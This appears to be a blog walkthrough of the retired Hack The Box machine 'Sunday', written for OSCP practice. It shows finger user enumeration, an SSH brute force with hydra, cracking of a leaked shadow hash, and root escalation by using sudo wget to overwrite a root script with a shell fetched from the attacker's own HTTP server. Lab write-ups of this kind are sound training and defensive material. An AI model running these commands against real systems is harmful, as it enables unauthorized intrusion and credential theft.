


This is the 22nd blog out of a series of blogs I will be publishing on retired HTB machines in preparation for the OSCP. The full list of OSCP like machines compiled by [TJ_Null](https://twitter.com/TJ_Null) can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#).

Let’s get started!

# Reconnaissance

First thing first, we run a quick initial nmap scan to see which ports are open and which services are running on those ports.

```
nmap -sC -sV -O -oA initial 10.10.10.76
```

- **-sC**: run default nmap scripts

- **-sV**: detect service version

- **-O**: detect OS

- **-oA**: output all formats and store in file _initial_

We get back the following result showing that 2 ports are open:

- **Port 79: **running Sun Solaris fingerd

- **Port 111: **running rpcbind

```
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-01-05 12:09 EST
Nmap scan report for 10.10.10.76
Host is up (0.042s latency).
Not shown: 996 closed ports
PORT      STATE    SERVICE   VERSION
79/tcp    open     finger    Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open     rpcbind   2-4 (RPC #100000)
10082/tcp filtered amandaidx
54328/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see [https://nmap.org/submit/](https://nmap.org/submit/) ).
TCP/IP fingerprint:
....

Network Distance: 2 hops
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 151.04 seconds
```

Before we start investigating these ports, let’s run more comprehensive nmap scans in the background to make sure we cover all bases.

Let’s run an nmap scan that covers all ports. Since the full nmap scan takes too long to run, let’s first run a quick scan to figure out which ports are open.

```
nmap -p- -oA full-noscripts 10.10.10.76  --max-retries 0
```

- **— max-retries:** number of port scan probe retransmissions

We get back the following result showing that two other ports are open.

```
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-01-05 17:49 EST
Warning: 10.10.10.76 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.76
Host is up (0.039s latency).
Not shown: 63933 filtered ports, 1598 closed ports
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
55029/tcp open  unknown
```

Then we run a more comprehensive scan to identify services running on the above ports.

```
nmap -p 79,111,22022,55029 -sV -oA full-scripts 10.10.10.7
```

We get back the following result showing that:

- **Port 22022:** is running SunSSH 1.3

- **Port 55029: **is running a service that nmap was not able to identify

```
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-01-05 17:52 EST
Nmap scan report for 10.10.10.76
Host is up (0.037s latency).

PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey:
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
55029/tcp open  unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 31.37 seconds
```

Since the UDP scan took too long to run, we don’t have UDP scan results for this blog.

# Enumeration

We’ll start off with enumerating port 79. A quick google search on the “Finger service” tells us that the finger protocol is used to find out information about users on a remote system. Therefore, we can use it to enumerate usernames.

First, check if there are any logged in users.

```
root@kali:~# finger [@10](http://twitter.com/10).10.10.76
No one logged on
```

No one is currently logged in. Let’s check if the user “root” exists.

```
root@kali:~# finger root@10.10.10.76
Login       Name               TTY         Idle    When    Where
root     Super-User            pts/3        <Apr 24, 2018> sunday
```

It does exist. Now, let’s enumerate more usernames. The [seclists](https://installlion.com/kali/kali/main/s/seclists/install/index.html) project has a list of usernames that we can use in order to guess the usernames that are available on the server.

```
/usr/share/seclists/Usernames/Names/names.txt
```

Pentestmonkey has a [finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) script that is used to enumerate OS-level user accounts via the finger service. Let’s run that on our host.

```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

- **-U: **file of usernames to check via finger service

- **-t:** server host running finger service

We get the following result showing us that “sammy” and “sunday” are users of the system.

```
....
sammy@10.10.10.76: sammy                 pts/2        <Apr 24, 2018> 10.10.14.4          ..
sunny@10.10.10.76: sunny                              <Jan  5 23:37> 10.10.14.12         ..
....
```

# Initial Foothold

Since SSH is open and we have two valid usernames, let’s try brute-forcing the users’ credentials using hydra. We’ll start off with Sunny.

```
hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

- **-l:** username

- **-P:** password file

- **-s:** port

We get back the following result showing us that Sunny’s password is “sunday”.

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
....
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
....
```

SSH into Sunny’s account.

```
ssh -p 22022 sunny@10.10.10.76
```

We get the following error.

```
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

The error tells us that the client and server were unable to agree on the key exchange algorithm. The server offered three legacy algorithms for key exchange. So we’ll have to choose one of these algorithms in order to login.

```
ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
```

- **-oKexAlgorithms: **enable a key exchange algorithm that is disabled by default

We’re in! Locate the user.txt flag and try to view it.

```
sunny@sunday:~$ find / -name  user.txt 2>/dev/null
/export/home/sammy/Desktop/user.txt

sunny@sunday:~$ cat /export/home/sammy/Desktop/user.txt
cat: /export/home/sammy/Desktop/user.txt: Permission denied
```

We need to escalate our privileges to Sammy.

# Privilege Escalation

Run the following command to view the list of allowed commands that the user can run with root privileges.

```
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```

We can run the /root/troll command as root. This is obviously a custom command so let’s run it to see what it’s doing (we don’t have read access to it).

```
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

It seems to be a script that prints the id of the user running it. Since we ran it with the ‘sudo’ command, it prints the id of root. We don’t have write access to the script, so we can’t escalate our privileges using it.

After a bit of digging, I found a backup file in the following directory.

```
/backup
```

It contains two files agen22.backup and shadow.backup. The former we don’t have access to, however, we can view the latter.

```
sammy@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

It’s a backup of the shadow file. We already know Sunny’s password so we’re not going to attempt to crack it. Instead, copy Sammy’s password and save it in the file sammy-hash.txt. Then use John to crack the hash.

```
root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:01:17 DONE (2020-01-05 21:03) 0.01292g/s 2648p/s 2648c/s 2648C/s domonique1..bluenote
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got a password! Let’s su into Sammy’s account.

```
su - sammy
```

Now we can view the user.txt flag.


Let’s try to escalate to root privileges. Run the sudo command again to view the list of allowed commands the user can run as root.

```
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

We can run wget with root privileges! If you’re familiar with the “-i” flag in wget, you’ll know that we can use it to output the content of files. Therefore, we can run the following command to get the root flag.

```
sudo wget -i /root/root.txt
```

However, in this scenario we’re simply reading the content of the flag and not really escalating privileges. To get a root shell we need to chain the following two vulnerabilities:

1. The user Sunny can execute the /root/troll file with root privileges, and

1. The user Sammy can overwrite any root owned file using the wget command.

Therefore, we’ll use Sammy’s sudo privileges to overwrite the /root/troll file and include a shell in it. Then we’ll use Sunny’s sudo privileges to run the /root/troll file and convert our shell to a root shell.

Alright, let’s do this! In the attack machine, create a file called “troll” and add the following code to it.

```
#!/usr/bin/bash

bash
```

Then start up a simple Python server in the directory the file is in.

```
python -m SimpleHTTPServer 5555
```

Go back the target machine running with the Sammy user privileges, and run the wget command to overwrite the /root/troll file.

```
sudo wget -O /root/troll [http://10.10.14.12:5555/troll](http://10.10.14.12:5555/troll)
```

In another SSH session running with the Sunny user privileges, execute the troll file.

```
sudo /root/troll
```

Since we added a bash shell in the troll file and the troll file is being executed with root privilege, we get a root shell!



**Note:** Something on the server seems to be resetting the /root/troll file every couple of seconds, therefore you only have small window of time between overwriting the troll file as Sammy and executing the troll file as Sunny.

# Lessons Learned

To gain an initial foothold on the box we exploited two vulnerabilities.

1. Username enumeration of the finger service. The finger protocol is used to get information about users on a remote system. In our case, we used it to enumerate usernames that we later used to SSH into the server. The remediation for this vulnerability would be to disable this service.

1. Weak authentication credentials. After getting a username from the finger service, we ran a brute force attack on SSH to obtain a user’s credentials. The user should have used a sufficiently long password that is not easily crackable.

To escalate privileges we exploited three vulnerabilities.

1. Information disclosure. As a non privileged user, we had access to a backup of the shadow file that leaked hashed passwords. Any file that contains sensitive information should not be available to non privileged users.

1. Weak authentication credentials. Although the passwords were hashed in the backup shadow file, we were able to obtain the plaintext passwords by running john on the hashes. Again, the users should have used sufficiently long passwords that are not easily crackable.

1. Security Misconfigurations. Both Sammy and Sunny were configured to run commands as root. Chaining these two commands together allowed us to escalate our privileges to root. The administrators should have conformed to the concept of least privilege when configuring these users’ accounts.

# Conclusion

22 machines down, 25 more to go!

